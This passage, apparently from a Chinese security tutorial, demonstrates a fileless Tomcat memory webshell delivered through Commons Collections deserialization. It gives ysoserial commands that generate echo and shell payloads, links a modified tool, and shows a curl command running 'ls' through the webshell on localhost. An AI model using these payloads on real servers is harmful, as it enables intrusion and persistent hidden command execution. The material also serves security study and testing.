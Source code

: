 就生成了CommonsCollections11ForTomcatShellInject的payload了

0x03 测试
---------

上一节中，我们生成了两个payload，接下来，我们启动一个具有`commons-collections:commons-collections:3.2.1`依赖的服务端，并且存在反序列化的接口。

然后我们把步骤一和步骤二生成的payload依次打过去

![](./resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId27.png)

![](./resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId28.png)

可以依次看到，两个步骤都返回500异常，相关信息证明已经执行反序列化成功了，接下来我们试试这个内存Webshell

![](./resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId29.png)

![](./resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId30.png)

完美，具体ysoserial改造后的代码，我已经上传到github，有兴趣可以看看
[ianxtianxt/ysoserial](https://github.com/ianxtianxt/ysoserial)

### 使用方法

> Tomcat通杀回显-内存webshell
>
> 例：

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
    CommonsCollections11ForTomcatEchoInject > echo.payload

> 然后使用上述得到的恶意序列化数据echo.payload攻击一遍，然后再继续下面的操作

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
    CommonsCollections11ForTomcatShellInject > shell.payload

> 使用恶意序列化数据shell.payload再攻击一遍，可以得到一个内存级的webshell，任意路径，参数threedram为命令

    curl http://127.0.0.1:8080/aaa\?threedr3am\=ls%20/

参考链接
--------

> https://xz.aliyun.com/t/7388\#toc-3
